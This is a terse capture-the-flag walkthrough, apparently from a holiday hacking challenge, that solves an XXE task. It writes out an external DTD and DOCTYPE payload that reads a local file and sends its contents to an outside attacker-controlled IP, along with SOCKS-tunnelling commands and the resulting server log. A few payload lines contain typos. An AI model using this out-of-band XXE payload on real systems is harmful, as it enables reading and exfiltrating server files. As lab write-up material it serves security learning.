

# Challenge 6 - XXE
ssh -C -D 1080 alabaster_snowball@35.196.147.148
proxychains firefox
http://10.142.0.13
http://10.142.0.13/XMLFile/Elfdata.xml
downloaded the example xml
http://10.142.0.13/Home/DisplayXML
http://10.142.0.13/Home/CreateElfs
Use the Elfdata.xml give to inject XXE to get file
Create Evil.dtd
<?xml version="1.0" encoding="UTF-8"?><!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt"><!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://54.202.232.184:80/?%stolendata;'>">
Add into Elfdata.xml the XEE payload
<!DOCTYPE demo [<!ELEMENT demo ANY >ENTITY % extentity SYSTEM "http://54.202.232.184:80/evil.dtd">%extentity;%inception;%sendit;]>
Upload the edited Elfdata.xml to site
on EC2 start simple python server
python 0m SimpleHTTPServer 80
In reponse we get
35.185.118.225 - - [18/Dec/2017 14:57:13] "GET /evil.dtd HTTP/1.1" 200 -
35.185.118.225 - - [18/Dec/2017 14:57:13] "GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1" 200 -
Now we know locate of the greatbook6.pdf
Visist the webiste at http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf
Download the Greatbook6.pdf